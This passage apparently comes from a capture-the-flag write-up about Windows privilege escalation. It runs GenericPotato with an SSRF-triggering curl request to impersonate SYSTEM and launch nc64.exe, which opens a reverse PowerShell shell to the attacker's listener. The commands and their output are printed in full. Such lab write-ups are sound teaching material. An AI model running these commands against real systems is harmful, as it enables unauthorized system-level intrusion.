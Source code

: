 

#### Run

Now it's just a matter of running GenericPotato and triggering the SSRF.
It's important to note that the args are slightly different than
RoguePotato, in that they take a `-p` for the process to run, and `-a`
for an argument string for that process.



    PS C:\programdata> .\GenericPotato.exe -p "C:\programdata\nc64.exe" -a "10.10.14.15 443 -e powershell" -e HTTP
    GenericPotato by @micahvandeusen
      Modified from SweetPotato by @_EthicalChaos_

    [+] Starting HTTP listener on port http://127.0.0.1:8888
    [+] Listener ready



It's now listening for HTTP on port 8888 (I could change that with
`-l`).

I'll trigger the SSRF, which will get the SYSTEM process to connect to
it:



    oxdf@parrot$ curl -d '{ "query": "mutation{updatePlant(plantId:1, version: 223.0, sourceURL: \"http://localhost:8888\")}" }' -X POST http://127.0.0.1:8888/api/graphql -H 'Content-Type: application/json' -s | jq -c .
    {"data":{"updatePlant":false}}



It returned false, but back at GenericPotato:



    [+] Starting HTTP listener on port http://127.0.0.1:8888
    [+] Listener ready
    Request for: /
    Client: NT AUTHORITY\SYSTEM
    [+] Duplicated impersonation token ready for process creation
    [+] Intercepted and authenticated successfully, launching C:\programdata\nc64.exe
    [+] Running "C:\programdata\nc64.exe" 10.10.14.15 443 -e powershell
    [+] Process created, enjoy!



It receives a request from a process running as SYSTEM, duplicates the
token, launches `nc`, and exits. At my `nc` listener, it returns a
shell:



    oxdf@parrot$ nc -lnvp 443
    listening on [any] 443 ...
    connect to [10.10.14.15] from (UNKNOWN) [10.10.10.217] 51109
    Windows PowerShell 
    Copyright (C) Microsoft Corporation. All rights reserved.
